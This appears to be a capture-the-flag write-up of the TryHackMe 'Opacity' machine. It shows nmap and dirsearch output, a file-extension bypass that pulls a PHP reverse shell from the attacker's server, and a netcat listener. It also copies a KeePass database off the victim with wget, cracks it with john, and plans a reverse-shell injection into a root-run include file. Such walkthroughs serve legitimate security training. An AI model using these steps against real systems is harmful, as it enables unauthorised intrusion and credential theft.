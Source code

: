 # Opacity | THM
### Difficulty Level: Easy
----------------------------------

First, use nmap scan to find out services and open ports that runs on the machine:

```bash
nmap -p- -T4 -A <machine-ip> -oN opacity.nmap
```

-p- Scans all ports instead of the 1000 common ports.

-T4 - Increases the tempo of the scan.

-A - Aggresive scan to gather more information about the system.

-oN - Saves the output into a file.

The results of the scan:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 16:01 EDT
Nmap scan report for 10.10.134.146
Host is up (0.069s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/14%OT=22%CT=1%CU=33642%PV=Y%DS=2%DC=T%G=Y%TM=65F3
OS:58A1%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=102%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=10E%TI
OS:=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M
OS:508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B
OS:3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%D
OS:F=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G
OS:)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-14T20:05:51
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.32 ms 10.9.0.1
2   74.44 ms 10.10.134.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 253.23 seconds
```

There are 4 open ports:

22 - SSH

80 - HTTP

139 - SMB

445 - SMB

Let's see if there any shares on smb server befor I'll try the machine address on the browser.
We can not get any helpful info.

So let's move into the browser and there is a login page:

![image](https://cdn-images-1.medium.com/max/1000/1*p8Orakd7YW4KAXtvtWPEcw.png)

While testing the web app, I started with directories scan with dirsearch: 

```bash
python3 dirsearch.py -u <machine-ip>
```

There is an intersting directory. */cloud*
Navigate there:

![image](https://cdn-images-1.medium.com/max/1000/1*ykpbEERdhg-i09w0aF8T1Q.png)


I tried to upload a reverse shell by using http server with python.

on your machine whithin the directory that rev shell file is located us this command:

```bash
python3 -m http.server
```
By default, this server uses port 8000.

Inside the external image input I use this:

http://<your-ip>:8000/php-reverse-shell.php

The behavior of the site did nothing and I didnt get any log that request was made. so I guess that the file didn't make it to 
the victim machine.

![image](https://cdn-images-1.medium.com/max/1000/1*HgbyvK_SLT1FMCd8DXsXwg.png)


So, maybe there is any validation otn the file extension that command
us to upload only jpg or png file.
so it's time to bypass this machanism with adding another extension to the file
with .php#.png .
so the rev shell file looks like php-reverse-shell.php#.png when you enter it on extenal URL.
By using "#00" sign, the web server interpreter it like php file but let us upload it as png file.
the server might treat the file as a PHP file, potentially executing PHP code, even though it's followed by .png, which could confuse the server or security measures.
Give it a try:

![image](https://cdn-images-1.medium.com/max/1000/1*WiL92ECdp465DleyRQwNTw.png)

After it has been uploaded, do the same but now, set a netcat listener with the port 
that you set on the script.

```bash
nc -lnvp 2222
```

After it has been completed you'll get the reverse shell.

![image](https://cdn-images-1.medium.com/max/1000/1*plOKVBhFVFXjnZGiN68wKw.png)

stabilize it with:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

While enumaration process I found .kdbx file within /opt directory.

A KDBX file is a database file format used by password managers, particularly KeePass and its derivatives like KeePassXC.

Let's grab it to our machine with open http server on another port on the victim machine:

```bash
python3 -m http.server 2000
```

Grab the file on your machine with:

wget http://10.10.87.30:2000/dataset.kdbx

![image](https://cdn-images-1.medium.com/max/1000/1*2PRqxPLYzYME7Qqwoz8G4A.png)

I tried to open the file but without any success. google will help me. 
to open keepass file you need to use kpcli so download it with.

```bash
sudo apt install kpcli
```

Open it with kpcli, but you have to provide masterpassword to open it.

```
Type "help <command>" for more detailed help on a command.
kpcli:/> open dataset.kdbx
Provide the master password:
```

keepass2john will help me to provide format that john the ripper can work it (hash).
The next step will be using dictionary attack.

Use this command:

```bash
keepass2john dataset.kdbx > john.txt
```
and for the next step:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

![image](https://cdn-images-1.medium.com/max/1000/1*UIhtZOnQm_GVoUlBHwn8wQ.png)


Now, after getting the password we can open the keepass file and 
there is a username and a password.

![image](https://cdn-images-1.medium.com/max/1000/1*97lNYqbZ14fDwNu9nImvDg.png)

remember that there is ssh service open on that machine so try to 
connect it with the new credentials within the keepass file.

```bash
ssh sysadmin@10.10.87.30
```

enter the password and we are in.

grab local.txt flag.

![image](https://cdn-images-1.medium.com/max/1000/1*0vNNZS4TzOanPZkEHrOdQA.png)

Then we need to find a way to be root.

As we can see there is a script.php file own by root and when it runs it calls to 
another file within /lib:

![image](https://cdn-images-1.medium.com/max/1000/1*de31LzlghDjQ23FePAOh_Q.png)

on script.php I have no permission to modiefy it, but if it uses another script, maybe can I 
modifey lib/backup.inc.php ?

```
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
```

I can only read it.

But, I'm the owner of /lib . what if Ill copy the directory to sysadmin home directory? I can modifey /lib/backup.inc.php there, then remove the original file from the original directory, the next step will be inject a reverse shell to the copied file and the last step is to move the file back to the original directory as modified file!
































































